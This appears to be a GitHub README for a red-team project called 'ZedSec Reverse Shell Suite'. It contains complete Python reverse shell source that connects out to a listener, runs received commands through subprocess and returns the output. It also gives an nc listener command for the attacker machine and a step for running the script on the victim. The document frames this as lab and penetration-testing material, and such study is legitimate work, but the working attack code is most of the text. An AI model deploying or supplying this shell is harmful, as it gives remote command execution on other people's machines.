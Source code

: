 # 🧠 ZedSec Reverse Shell Suite

This project showcases a custom reverse shell written in Python for red team operations, C2 testing, and malware lab development.

## ⚔️ Purpose

This shell is built for:

- Payload chaining in internal lab simulations
- Command & Control (C2) development
- Penetration testing and adversary emulation
- Ethical red teaming environments
  
## 💻 Features

- Reverse TCP shell over socket
- Graceful exit handling
- Cross-platform compatible
- Minimal dependencies

## 🧪 Tested In

- Arch Linux / Kali Linux
- Windows 10 (x86/x64) via VirtualBox
- Host-only networks

 ```import socket
import subprocess

def reverse_shell(host='192.168.56.101', port=4444):
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((host, port))

        while True:
            command = client.recv(1024).decode("utf-8")
            if command.lower() in ['exit', 'quit']:
                break
            output = subprocess.getoutput(command)
            client.send(output.encode("utf-8"))

    except Exception as e:
        print(f"[!] Error: {e}")
    finally:
        client.close()

if __name__ == "__main__":
    reverse_shell()
``` 

## 🚀 Usage

1. **Start listener on attacker machine:**
   ```bash
   nc -lvnp 4444
   ```

2. **Deploy on victim (lab only):**
   ```bash
   python reverse_shell.py
   ```

## 📂 Structure

```
.
├── reverse_shell.py   # Python-based reverse shell
├── README.md
├── LICENSE
└── screenshots/
```

## 📸 Screenshots

<img src="screenshots/demo.png" alt="Reverse Shell Demo" width="600"/>

## 🔐 Legal Disclaimer

For ethical hacking in **controlled, lab-based environments** only.  
ZedSec does not condone unauthorized access or malicious use.

## 📫 Contact

Made by ZedSec — Solo Red Team Operator  
📧 hacktheworld.zedsec@yahoo.com
"""

